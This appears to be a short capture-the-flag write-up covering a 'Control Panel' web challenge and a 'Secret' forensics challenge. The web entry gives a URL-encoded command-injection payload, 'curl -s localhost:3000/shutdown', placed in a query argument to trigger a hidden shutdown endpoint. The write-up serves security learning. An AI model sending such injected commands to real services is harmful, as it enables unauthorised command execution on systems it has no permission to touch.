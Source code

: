 

# Beginner's Room

## Control Panel [Web]

- modify the `aria-expanded="false"` to true
- then get the file and reverse engineer. Notice the `destroy.py` and the `/shutdown` path


URL encode the a malicious code to curl the localhost to get to `/shutdown`
`https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=%63%75%72%6C%20%2D%73%20%6C%6F%63%61%6C%68%6F%73%74%3A%33%30%30%30%2F%73%68%75%74%64%6F%77%6E`


## Secret [Forensics]
- open in kali and left click highlight over your items
- ![alt text](topsecret.png)